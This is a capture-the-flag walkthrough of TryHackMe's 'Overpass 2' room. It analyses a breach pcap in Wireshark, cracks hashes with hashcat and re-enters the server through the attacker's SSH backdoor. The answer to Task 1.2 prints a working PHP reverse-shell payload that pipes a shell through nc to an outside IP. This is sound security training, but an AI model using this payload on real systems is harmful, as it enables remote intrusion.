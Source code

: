 ```yaml
---
title: THM | Overpass 2
image: /images/op2-home.png
date: 2020-09-26 17:00:00 -4:00
categories: [CTFs & Walkthroughs, TryHackMe]
tags: [wireshark, pcap, hashcat, backdoor, go, salt, hash] 

---
```


# Description 
> [Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked), is an easy-rated box on [TryHackMe](https://tryhackme.com/) that has you analyze a pcap file of the network activity that occurred during the time of a breach. You then retrace the attackers steps to regain access to the server.

# `[Task 1]` Forensics - Analyze the PCAP

## `1.1` - What was the URL of the page they used to upload a reverse shell?
There's many ways to filter down the traffic you're looking for. One of the first things I do when analyzing a pcap file in wireshark is to take a look at the export objects. You can get some easy wins this way.

![](/images/op2-exp-obj.png)

![](/images/op2-obj-list.png)
`upload.php` seems like a winner. When you select it in the export list window, it will highlight the packet in wireshark. From there you can just `follow tcp stream` to analyze further.

![](/images/op2-fol-tcp-str.png)
Right away the stream reveals a lot of good info. ez.
![](/images/op2-development.png)
The very first thing shown is the `POST` request made to upload the file we discovered earlier, `upload.php` as well as the `Referer` giving us the first answer. **`/development/`**

## `1.2` - What payload did the attacker use to gain access?
Scrolling down a bit shows the content of the `POST` request and the file `payload.php` with a very common php shell code. 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
![](/images/op2-payload.png)

## `1.3` - What password did the attacker use to privesc?
Since we know the payload used `nc 192.168.170.145 4242` to make the call back to the attacker, we can use this to filter the pcap file. Using the display filter `ip.addr == 192.168.170.145 and tcp.port == 4242`. 

![](/images/op2-dis-filter.png)

Again, choose any packet and follow the tcp stream. You will see a plethora of information, and as great as `nc` is, it is a very bad choice for keeping your traffic confidential. Everything the attacker did on the server is in clear text for us to analyze.

![](/images/op2-password.png)
> All of the red text is the server and everything in blue is the user's input.

There's the password we're looking for: `whenevernoteartinstant`

## `1.4` - How did the attacker establish persistence?
Scrolling down the same stream, you will see the attacker download a ssh backdoor from [`https://github.com/NinjaJc01/ssh-backdoor`](https://github.com/NinjaJc01/ssh-backdoor) to access the server at a later time.
![](/images/op2-backdoor.png)

## `1.5` - Using the fasttrack wordlist, how many of the system passwords were crackable?
The attacker cat'd the `/etc/shadow` file, copy the hashes and put them into a text file.
![](/images/op2-shadow.png)
### Hashcat
Now use hashcat to crack the hashes. 
![](/images/op2-hashcat.png)

# `[Task 2]` Research - Analyze the code
## `2.1` What's the default hash for the backdoor?
You can either download the repo of the ssh backdoor or just analyze it from github in your browser. It doesn't matter, everything we need is in the `main.go` file. 

Looking over the code you will find a hardcoded hash assigned to a variable.
![](/images/op2-hash.png)

## `2.2` What's the hardcoded salt for the backdoor?
Again going through the same source code, you will find a function called passwordHandler and the hardcoded salt used for the hash.
![](/images/op2-salt.png)

## `2.3` What was the hash that the attacker used? - go back to the PCAP for this!
Going through the tcp stream from earlier, you can clearly see the hash the attacker used with the backdoor.
![](/images/op2-att-hash.png)

## `2.4` Crack the hash using rockyou and a cracking tool of your choice. What's the password?

So there's a few things to hit on real quick:

- When analyzing the source code for the backdoor, we found the hardcoded salt used to hash the password mentioned in `2.2`.
- Also important, is the algorithm used to calculate the hash. Which can also be found in the source code.
```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```
- So it's using sha512 to hash the password + salt. 
- Great, now we can start putting together our hashcat command.

Using the [hashcat example hashes menu](https://hashcat.net/wiki/doku.php?id=example_hashes), you will find option `1710` matches our scenario in the form of `sha512($pass.$salt)`

So our command will be in form of `hashcat -m <HASH_TYPE> -a 0 -o <outfile> <HASH:SALT> <wordlist>`
![](/images/op2-hc.png)

cat the output file to reveal the password.
![](/images/op2-hc2.png)

# `[Task 3]` Attack - Get back in!
## `3.1` The attacker defaced the website. What message did they leave as a heading?
Deploy the machine and head over to the website. You will immediately see the defacement. 
![](/images/op2-web.png)

## `3.2` Using the information you've found previously, hack your way back in!
If you have a good memory and are observant, you will remember from the pcap file and the source code, that the `ssh backdoor` is listening on `port 2222`. So simply connect with ssh on that port.
![](/images/op2-ssh.png)

## `3.3` What's the user flag?
Simple enough, just go to james' home directory and cat the user.txt file.
![](/images/op2-user.png)

## `3.4` What's the root flag?
If you did a `ls -la` in james' home directory then you would of seen a hidden binary named `.suid_bash` with the sticky bit set. Seems like a quick way for the attacker to escalate to root, so let's try it out ourselves. 
![](/images/op2-root.png)

Boom, just like that we got root and we can get the last flag.

![](/images/op2-root2.png)
